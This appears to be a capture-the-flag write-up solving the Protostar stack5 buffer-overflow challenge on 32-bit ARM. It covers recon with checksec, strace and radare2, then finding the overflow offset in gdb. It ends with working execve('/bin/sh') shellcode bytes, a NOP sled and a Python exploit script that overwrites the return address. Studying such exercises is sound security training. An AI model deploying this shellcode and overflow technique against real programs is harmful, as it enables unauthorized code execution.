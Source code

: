 # Stack 5 - Protostar challenge
## Spawn shell

### Recon

First look for security mitigations reveals, that there 
are none of them:
```
$ checksec stack5
[*] '/tmp/stack5'
    Arch:     arm-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments

```

Next step would be to gain some insight into stack5's 
control flow while executing it. Main question would be 
how to interact with program in RAM. Before any 
reversing attempts, let's call binary with ```strace``` 
for getting somw initial guess on possible injection 
vectors:

```
$ strace -i -f "./stack5"
[...]
[76fe821c] mprotect(0x76fb2000, 8192, PROT_READ) = 0
[76fe821c] mprotect(0x76ffe000, 4096, PROT_READ) = 0
[76fe81dc] munmap(0x76fb8000, 88642)    = 0
[76f33a08] fstat64(0, {st_mode=S_IFCHR|0620, 
st_rdev=makedev(136, 0), ...}) = 0
[76f3d174] brk(NULL)                    = 0x21000
[76f3d174] brk(0x42000)                 = 0x42000
[76f34698] read(0, 0x21150, 1024)       = ? ERESTARTSYS 
(To be restarted if SA_RESTART is set)
[76f34694] --- SIGWINCH {si_signo=SIGWINCH, 
si_code=SI_KERNEL} ---
[76f34698] read(0, AAAA
"AAAA\n", 1024)      = 5
[76f0f944] exit_group(0)                = ?
[????????] +++ exited with 0 +++
``` 
Ok, program is reading user input from stdin. Now it 
would be nice to know, if input gets sanitized or 
limited in its length or not.

I first took a look into imported functions from libc 
to find the path into binary that will be taken when 
reading from stdin
```
$ r2 -A ./stack5
[0x000102f4]> afl~imp
0x000102c4    1 12           sym.imp.gets
0x000102d0    1 12           sym.imp.__libc_start_main
0x000102e8    1 12           sym.imp.abort
sym.main 0x10438 [call] bl sym.imp.gets
```

So ```gets``` will be called by main at address 
0x10438. Let's seek to main focussing attention on
location where input get's stored in process memory:

```
0x00010430      sub r3, fp, 0x44
0x00010434      mov r0, r3
0x00010438      bl sym.imp.gets             ;[1] ; char*gets(char *s) 
```

First argument to gets is a pointer to location where 
input has to be stored. Disassemly above reveals, that 
it's 64 bytes away from fp, bingo! That means, that if 
we provide more 68 bytes as user input we should get 
segmentation fault as feedback. 

```
$ printf "A%0.s" {1..68} > /tmp/pattern ; printf "BBBB" >> /tmp/pattern
$ gdb --quiet -q ./stack5
(gdb) r < <(cat /tmp/pattern)
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "stack5", stopped, reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x42424240 in ?? ()
```
QED. Program counter has to be 4-byte aligned, that's 
why second last bit in "BBBB" got cleared.

Knowing the offset from input buffer to return address  
we are able to craft our payload to gain control 
over pc register.

### Crafting payload
There are two main approaches we could follow along 
here:

- Simple return to payload attack
- bx_sp-approach

I will show both attempts. Keep reading...
First task while crafting payload would be to construct 
shellcode (not GAS conform, it's an excerpts from 
radare output):

```
adr r0, 8
eors r1, r1
eors r2, r2
strb r2, [r0, 7]
movs r7, 0xb
svc 1
.string "/bin/shA" ; len=8 
```
Let's set a breakpoint at last instruction in 
```main```'s epilogue and determine adress of our 
payload on stack. 

```python
#!/usr/bin/env python2

from __future__ import print_function
import struct

p=lambda x: struct.pack("<I",x)

offset=68

shellcode=b"\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41"

nopsled=b"\x2d\x46"*512
payload = "A"*offset+p(0x7efff6c8+1)+nopsled+shellcode
print(payload)
``` 
